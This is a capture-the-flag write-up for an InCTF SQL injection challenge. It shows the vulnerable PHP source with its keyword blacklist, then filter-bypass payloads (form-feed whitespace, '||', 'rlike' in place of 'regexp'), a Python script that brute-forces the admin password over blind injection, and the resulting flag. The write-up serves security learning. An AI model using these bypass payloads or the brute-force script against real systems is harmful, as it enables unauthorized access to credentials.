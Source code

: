 # back_to_sql

This is a 400 pointer challenge I made for the InCTF-National round.

you can get the source code from [here](https://github.com/chsantoshkumar211/CTFs/tree/master/InCTF/back_to_sql)

```php
<?php
error_reporting(0); 
include "./config.php"; 
include "./flag.php"; 
if(isset($_GET['bypass']) && !iconv("UTF-8","UTF-8//IGNORE",$_GET['bypass'])) exit(":P LOL!!");
if(isset($_GET['bypass']) && strlen($_GET['bypass'])>1) exit(":(");
if(preg_match('/ |\n|\r|\t/i', $_GET['bypass'])) exit(":(");
$black_list = "/admin|guest|&|limit|by|as|substr|mid|or|not|ascii|char|union|select|greatest|%00|\"|benchmark|"; 
$black_list .= "=|_|in|<|>|sqlauth| |-|_|\.|\(\)|regexp|and|if|database|where|concat|insert|havin|#|0x|0b|sleep/i"; 
if(preg_match($black_list, $_GET['pass'])) exit(":P");
if(preg_match('/\b=\b/i', $_GET['pass'])) exit("No =");
if(preg_match('/\bregexp\b/i', $_GET['pass'])) exit("No regexp");
if(preg_match('/\blike\b/i', $_GET['pass'])) exit("No like");
$query = "select user from back_to_sql{$_GET['bypass']}where user='guest' and pw='{$_GET[pass]}'"; 
$result = @mysql_fetch_array(mysql_query($query)); 
if($result['user'])
{
	echo "<h1>Hello ".$result['user']."</h1>";
}
$admin_info =  @mysql_fetch_array(mysql_query('select * from back_to_sql where user="admin"')); 
echo "<h2>query : {$query}</h2>";
if(($admin_info['pw']) && $admin_info['pw']===$_GET['pass']) 
{ 
    echo $flag;
} 
highlight_file(__FILE__);
?> 
```

## Solution

#### $_GET['bypass']
So on looking to the source code, we can understand that we have to give a space as "bypass" between "back_to_sql" and "where" and the length of that argument should not be greater that one. So for that, we can use ```%0c```  or  ```%0b```.

#### $_GET['pass']
Coming to "pass" here is the place where we have to inject our query.
we can use ['](single quote). 

```
pass='%0c||%0c1;%00
```

![sql](img/CTF/back_to_sql/sql1.png)

gives us "welcome guest" so we need to query the database in the place of [1] but we can't use [like, regexp and =].

As Einstein says 
```
Look deep into nature, and then you will understand everything better.
```
If you observe this snippet closely you can understand that it's just filtering the work "like" alone but if the word "like" is concatenated with any other character this snippet will not work E.g. ``` rlike ```

```rlike``` Works just like ```regexp```

```PHP
if(preg_match('/\blike\b/i', $_GET['pass'])) exit("No like");
```

Now we can use rlike to brute force the admin password by querying the database in the place of [1]. So the injection : 
```
pass='%0c||%0c(pw%0crlike%0c'^1');%00
.
pass='%0c||%0c(pw%0crlike%0c'^3');%00
```
![sql](img/CTF/back_to_sql/sql2.png)

for  ```3```  the page responds back with "Hello admin".Hence our injection is working, So let's write a python script to brute force the admin password

```python
import requests
pay='1234567890abcdefghijklmnopqrstuvwxyz'
url = "http://52.66.243.74?bypass=%0c&pass='%0c||%0c(pw%0crlike%0c'^"
password = ""
for i in range(0,21):
    for j in pay:
        re = requests.get(url+password+str(j)+"');%00")
        if "Hello admin" in re.text:
            password = password + str(j)
print(password)
```

This gives us the admin password as : 3c721982f3edf4d95ced

![sql](img/CTF/back_to_sql/sql3.png)

On submittig the password you will get the flag.

flag : ```inctf{byp4s5ing_filt3r5_is_v3ry_3asy!!}```